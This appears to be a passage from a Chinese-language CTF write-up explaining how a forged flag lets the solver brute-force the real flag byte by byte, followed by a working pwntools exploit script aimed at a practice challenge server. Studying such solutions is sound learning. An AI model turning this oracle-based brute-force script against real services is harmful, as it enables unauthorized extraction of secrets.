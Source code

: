 

## 凭借伪造的flag实现单字节爆破

不过好消息是，**我们可以一直输入，只要我们输入的是一百个字节的内容**（因为程序对输入的长度是否是100字节进行了检查），程序就可以告诉我们输入的内容是正确还是错误。这个程序会将我们输入的内容作为一个整体去与flag进行判断，本来这种题目是无法单字节爆破的，**但是我们现在可以靠伪造一个flag去通过检查了，同时我们还可以继续输入内容，让程序判断输入的flag对不对，那我们只需要去每次改变一个字节，如果程序提示Yaaaay!，则说明我们爆破的这个字节是正确的，那就换下一个字节爆破，如果没有提示Yaaaay! 那就换个字符继续爆破这个字节。直到将所有的flag全部爆破出来**。

## EXP：

```python
from pwn import *
import string
#context.log_level='debug'
p=remote('node4.buuoj.cn',29002)
payload=""
for i in range(192,192+50):
    payload+='0'+chr(i)
p.recvuntil('guess> ')
#p.sendline(payload)#当用这部分内容让检查通过时，应该把这一部分注释掉，如果没有注释掉的话，会导致下面发送的内容，第一次的循环修改了内容之后，也通过了检查，因为recvline收到的是，这个payload的Yaaaay!，从而导致下面的检查判断是从第二字节开始，然后就陷入了死循环（因为第一个字节就是错的，即使第二字节爆破出来了，也不会显示Yaaaay!）
#这个解释是我通过观察debug的回显信息分析出来的，不能保证百分百对，不过目前我认为是这样。

List = ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e', 'f','-','l','g','{','}']

#这里的话，自己建个列表或者用string,printable效果是一样的，这个无所谓
kkk=list(payload)
flag=""#新建一个空的flag字符串，一会爆破出来真的flag将放入这个里面
for i in range(50):
    #for x in string.printable:
    for x in List:
        kkk[2*i]=hex(ord(x))[2]#这个地方是从列表中取一个x，然后将其转换成16进制，用切片取低位
        #print("kkk[2*i])=="+kkk[2*i])
        kkk[2*i+1]=hex(ord(x))[3]#用切片取高位 舍弃前面的0x
        #print("kkk[2*i+1])=="+kkk[2*i+1])
        p.sendline("".join(kkk))#将列表kkk添加到字符串里面
        re=p.recvline()#去接收一行的信息
        if 'Yaaaay!' in re:#判断Yaaaay!是否在这一行出现
            flag+=x
            print(flag)
            break
p.interactive()

```
